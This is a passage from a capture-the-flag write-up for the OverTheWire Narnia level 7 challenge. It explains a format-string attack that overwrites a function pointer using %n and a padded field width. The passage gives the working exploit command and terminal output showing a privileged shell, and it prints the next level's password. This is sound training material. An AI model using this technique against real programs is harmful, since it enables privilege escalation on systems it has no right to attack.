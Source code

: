 ``` 
0004| 0xffffd53c ("80486ff")								 #This is the beginning of the buffer
0008| 0xffffd540 --> 0x666636 ('6ff')
0012| 0xffffd544 --> 0x0 
```
 A breakpoint has been hit right after the call to snprintf and the stack clean up (add esp, 0xc). Below the code section, peda has provided a short stack dump. 
At the top of the stack (lowest memory address) we find as expected the function pointer which currently points to *goodfunction()*. Below it the buffer resides, which now contains the leaked address of good function printed as ascii characters.
To overwrite the value a buffer must be constructed. It should hold the address of the function pointer, then some fill payload and finally a format specifier %n to write to the address. With python we can quickly construct inputs containing non ascii printable characters like so:
```
narnia7@narnia:/narnia$ python -c 'print "\xff\xff\xff\xff"+"FILL"+"%n"'
����FILL%n
```

The address of the function pointer contains 8 ascii characters. This length plus the length of the dummy fill would be written to the function pointer. If the previous python command was used as input to the narnia7 program, then we would overwrite the function pointer with the value 12. This causes a segmentation fault and stops the program. The buffer is only 128 characters long, so how can we ever write 0x8048724 (address of hacked function) characters into the function pointer?
A trick is to abuse the field width of the format specifier. The field width is specified in decimal and prints spaces or 0’s depending on the format. Inputting e.g. *%010x* would print the corresponding argument prepending zeros until a field width of 10 is reached. 

Subtracting the four characters already written from the hacked function address and using this number as the field width successfully redirects us into hackedfunction(). In the terminal dump below, the desired field width is calculated. This successfully spawns the shell and elevates our permissions to those of narnia8. The password for the next level can then be found by reading the /etc/narnia_pass/narnia8 file.

```
narnia7@narnia:/narnia$ python -c 'result = 0x8048724-0x4; print result'
134514464
narnia7@narnia:/narnia$ ./narnia7 $(python -c 'print "\x58\xd5\xff\xff" + "%0134514464x" + "%n"')
goodfunction() = 0x80486ff
hackedfunction() = 0x8048724

before : ptrf() = 0x80486ff (0xffffd558)
I guess you want to come to the hackedfunction...
Way to go!!!!$ id
uid=14008(narnia8) gid=14007(narnia7) groups=14007(narnia7)
$ cat /etc/narnia_pass/narnia8
mohthuphog
```
A few things are going on in the above terminal dump. We first use python to find the decimal value of the needed padding. Then the address of the function pointer is input. This must be done in reverse order, because the machine which runs the executable has an x86 processor with little-endian, meaning the least significant byte comes first in memory. 
### A more consistent way
Directly writing the address with a single field width specifier is nice, but also comes with limitations. The maximum amount of characters we can write with the field width operator is around 200 millions, meaning if the address of hacked function had been '0xbebc200' (200 million) or above we could not have used this approach. Then what do you do?
Instead of writing the entire value into the address in one go, it can be split into four writes. This is done by writing into each byte of the address individually. We construct an input buffer as seen in the figure below.

